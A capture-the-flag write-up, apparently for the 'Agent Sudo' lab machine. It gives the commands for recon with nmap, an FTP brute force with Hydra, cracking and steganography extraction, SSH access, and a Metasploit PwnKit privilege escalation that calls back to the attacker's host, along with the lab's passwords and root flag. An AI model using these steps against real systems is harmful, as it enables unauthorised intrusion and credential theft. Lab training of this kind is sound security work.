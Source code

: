 # Agent Sudo

--------------------------------------------------------------------

**TOOLS USED**: nmap, hydra, binwalk, john, steghide, linpeas, metasploit

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.207.89

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: script scan<br>
-sV: probe open ports to determine service/version info<br>
-oN OUTPUT_FILE: output results to given filename<br>
-p-: scan all ports
```
nmap --script vuln -sV -p- -oN nmap.txt 10.10.207.89
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
  21 (ftp vsftpd 3.0.3),<br>
  22 (ssh OpenSSH 7.6p1),<br>
  80 (http Apache httpd 2.4.29),<br>
  8797,<br>
  9649,<br>
  39873,<br>
  42206

### 2. Access Hidden Pages

![2.1](./imgs/2.1.png)

Use User-Agent Switcher plugin to change user agent to R<br>
https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/

![2.2](./imgs/2.2.png)

![2.3](./imgs/2.3.png)

Try all other letters in alphabet

Codename: C

![2.4](./imgs/2.4.png)

**USERNAME**: chris

chris has weak password so we can try to brute force his ftp login

### 3. Brute Force FTP

```
hydra -l "chris" -P /usr/share/wordlists/rockyou.txt.gz ftp://10.10.207.89
```

![3.1](./imgs/3.1.png)

**PASSWORD**: crystal

```
ftp chris@10.10.207.89
less To_agentJ.txt
```

![3.2](./imgs/3.2.png)

```
get cute-alien.jpg
get cutie.png
```

### 4. Crack ZIP Hash

```
binwalk cute-alien.jpg
binwalk cutie.png
```

![4.1](./imgs/4.1.png)

file hidden in cutie.png

```
binwalk cutie.png -e
```

![4.2](./imgs/4.2.png)

Convert zip to hash and then crack
```
zip2john 8702.zip > hash
john hash
```
![4.3](./imgs/4.3.png)

**PASSWORD**: alien

Open To_agentR.txt in zip file

![4.4](./imgs/4.4.png)

Use Cyber Chef to auto detect encoding algorithm<br>
https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=UVhKbFlUVXg

![4.5](./imgs/4.5.png)

QXJlYTUx = Area51

### 5. Extract Stenography Data

```
steghide extract -sf cute-alien.jpg
```

![5.1](./imgs/5.1.png)

Agent J = James
**PASSWORD**: hackerrules!

```
ssh james@10.10.207.89
```

![5.2](./imgs/5.2.png)

### 6. Privilege Escalation

Run linpeas
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
scp linpeas.sh james@10.10.207.89:~/linpeas.sh
chmod +x linpeas.sh
./linpeas
```

![6.1](./imgs/6.1.png)

**VULNERABLE**: CVE-2021-4034, CVE-2022-2588 (Potential)

Exploit vulnerability
```
msfconsole
auxiliary/scanner/ssh/ssh_login
set RHOSTS 10.10.207.89
set USERNAME james
set PASSWORD hackerrules!
exploit
search CVE-2021-4034
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set LHOST 10.6.40.234
set SESSION 1
exploit
```

![6.2](./imgs/6.2.png)

Agent R = DesKel

**ROOT FLAG**: b53a02f55b57d4439e3341834d70c062